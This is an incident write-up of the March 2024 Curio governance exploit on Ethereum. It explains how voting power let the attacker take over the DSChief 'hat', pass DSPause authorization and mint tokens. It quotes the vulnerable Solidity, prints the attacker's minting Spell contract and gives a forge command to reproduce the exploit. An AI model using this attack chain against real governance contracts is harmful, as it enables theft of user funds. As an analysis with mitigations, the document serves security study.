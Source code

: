 # Curio Privilege Escalation
- **Type:** Exploit
- **Network:** Ethereum 
- **Total lost**: ~16MM USD 
- **Category:** Access Control
- **Vulnerable contracts:**
- - [Curio Chief](https://etherscan.io/address/0x579A3244f38112b8AAbefcE0227555C9b6e7aaF0#code)
- - [Curio Pause](https://etherscan.io/address/0x1e692eF9cF786Ed4534d5Ca11EdBa7709602c69f#code)

- **Attack transactions:**
- - [Privilege escalation and mint](https://etherscan.io/tx/0x4ff4028b03c3df468197358b99f5160e5709e7fce3884cc8ce818856d058e106)
  
- **Attacker Addresses**: 
- - Attacker EOA: [0xdaAa6294C47b5743BDafe0613d1926eE27ae8cf5](https://etherscan.io/address/0xdaAa6294C47b5743BDafe0613d1926eE27ae8cf5)
- - Attacker Contract (verified): [0x1E791527AEA32cDDBD7CeB7F04612DB536816545](https://etherscan.io/address/0x1E791527AEA32cDDBD7CeB7F04612DB536816545)
  
- **Attack Block:**:  `19,498,911`  
- **Date:** Mar 23, 2024
- **Reproduce:** `forge test --match-contract=Exploit_Curio -vvv`

## Step-by-step 
1. The attacker locked tokens into the `DSChief` contract.
2. Accumulated enough voting power.
3. Displaced (lifted) the current hat and set their contract as the new hat (without requiring many tokens).
4. The `DSPause` contract, upon making a `delegatecall`, checked `DSChief.canCall`, which returned true for the attacker's contract.
5. Consuming the authorized minter role from `DSPause`, the attacker executed a malicious instructions through a custom `Spell` contract to mint tokens directly to themselves.


## Detailed Description
Curio Finance leverages MakerDAO contracts for managing specific protocol functionalities. Their CSC Curio token, a `DSToken`, designates the `DSPauseProxy` contract as its minter. The `DSPause` contract relies on `DSChief.canCall` to verify if an authorized (privileged) call is permitted.
Then, executes a `delegatecall` through its proxy.

The operational vulnerability resided in the `DSChief` contract, which manages a HAT account that can be reconfigured with not much voting power. The attacker exploited this by locking tokens in `DSChief`, getting enough votes to lift and displace the current hat, subsequently positioning their contract as the new hat. The main issue was that the previous hat (Curio's `DSSSpell`) did not have enough voting power to consider the system safe, which allowed the easy and cheap displacement. 

The attacker was able to displace the `hat` by making the following calls on [chief.sol](https://github.com/CurioTeam/ds-chief/blob/simplify/src/chief.sol).

- Get initial voting weight.
```solidity
    function lock(uint128 wad)
        note
    {
        GOV.pull(msg.sender, wad);
        IOU.mint(wad);
        IOU.push(msg.sender, wad);
        deposits[msg.sender] = wadd(deposits[msg.sender], wad);
        addWeight(wad, votes[msg.sender]);
    }

    function addWeight(uint128 weight, bytes32 slate)
        internal
    {
        var yays = slates[slate];
        for( uint i = 0; i < yays.length; i++) {
            approvals[yays[i]] = wadd(approvals[yays[i]], weight);
        }
    }
```

```solidity
    function vote(bytes32 slate)
        note
    {
        uint128 weight = deposits[msg.sender];
        subWeight(weight, votes[msg.sender]);
        votes[msg.sender] = slate;
        addWeight(weight, votes[msg.sender]);
    }
```

- Displace the previous hat:
```solidity
    function lift(address whom)
        note
    {
        require(approvals[whom] > approvals[hat]);
        hat = whom;
    }
```

Since the authorized minter of the CSC Token is the `DSPauseProxy` which is controlled by the `DSPause` contract, by getting enough privileges through
the escalation made on the Chief the attacker was able to make the arbitrary `delegatecall` from the proxy.

- [`roles.sol`](https://github.com/dapphub/ds-roles/blob/495863375b87efe062eb3b723e6a199633ec7e51/src/roles.sol#L40):

These functions were called from the pause contract to validate the caller's privileges.
```solidity
    function canCall(address caller, address code, bytes4 sig)
        constant
        returns (bool)
    {
        if( isUserRoot(caller) || isCapabilityPublic(code, sig) ) {
            return true;
        } else {
            var has_roles = getUserRoles(caller);
            var needs_one_of = getCapabilityRoles(code, sig);
            return bytes32(0) != has_roles & needs_one_of;
        }
    }
```

- `chief.sol`:
```solidity
    function isUserRoot(address who)
        constant
        returns (bool)
    {
        return (who == hat);
    }
```

- [`pause.sol`](https://github.com/CurioTeam/ds-pause/blob/solc-0.5-0.6/src/pause.sol):

```solidity
    modifier auth {
        require(isAuthorized(msg.sender, msg.sig), "ds-auth-unauthorized");
        _;
    }

    function isAuthorized(address src, bytes4 sig) internal view returns (bool) {
        if (src == address(this)) {
            return true;
        } else if (src == owner) {
            return true;
        } else if (authority == address(0)) {
            return false;
        } else {
            return DSAuthority(authority).canCall(src, address(this), sig);
        }
    }
```

The following functions were used to enqueue and call for the execution on `DSPause`.
```solidity
    function plot(address usr, bytes32 tag, bytes memory fax, uint eta)
        public note auth
    {
        require(eta >= add(now, delay), "ds-pause-delay-not-respected");
        plans[hash(usr, tag, fax, eta)] = true;
    }
```

```solidity
    function exec(address usr, bytes32 tag, bytes memory fax, uint eta)
        public note
        returns (bytes memory out)
    {
        require(plans[hash(usr, tag, fax, eta)], "ds-pause-unplotted-plan");
        require(soul(usr) == tag,                "ds-pause-wrong-codehash");
        require(now >= eta,                      "ds-pause-premature-exec");

        plans[hash(usr, tag, fax, eta)] = false;

        out = proxy.exec(usr, fax);
        require(proxy.owner() == address(this), "ds-pause-illegal-storage-change");
    }
```

Finally, make the `delegatecall` from the `DSPauseProxy`:

```solidity
    function exec(address usr, bytes memory fax)
        public auth
        returns (bytes memory out)
    {
        bool ok;
        (ok, out) = usr.delegatecall(fax);
        require(ok, "ds-pause-delegatecall-error");
    }
```

Upon making that `delegatecall`, `DSPause` verifies through `DSChief.canCall`, which returned true given the attacker's contract was now the hat. Since `DSPause` executes actions with `delegatecall` and got minting authority for the token, the attacker deployed a malicious custom `Spell` contract to mint tokens directly to their address. 

- `Spell` contract:
```solidity
    function act(address user, IMERC20 cgt) public {
        IVat vat = IVat(0x8B2B0c101adB9C3654B226A3273e256a74688E57);
        IJoin daiJoin = IJoin(0xE35Fc6305984a6811BD832B0d7A2E6694e37dfaF);

        vat.suck(address(this), address(this), 10 ** 9 * 10 ** 18 * 10 ** 27);

        vat.hope(address(daiJoin));
        daiJoin.exit(user, 10 ** 9 * 1 ether);

        cgt.mint(user, 10 ** 12 * 1 ether);
    }
```

Then, the attacker made multiple swaps and cross-chain transfers using different providers.

## Possible mitigations
1. Implement stringent access controls to prevent unauthorized role changes
2. Simulate and test safe operative values for voting power. 
3. The system's voting power and privileges setup should be robust enough to prevent/handle voting power manipulation attacks, collusion, among others.

## Sources and references
- [Curio Tweet](https://twitter.com/curio_invest/status/1771635979192774674)
- [Hacken Tweet](https://x.com/hackenclub/status/1772288824799801401)
- [Rekt Article](https://rekt.news/curio-rekt/)
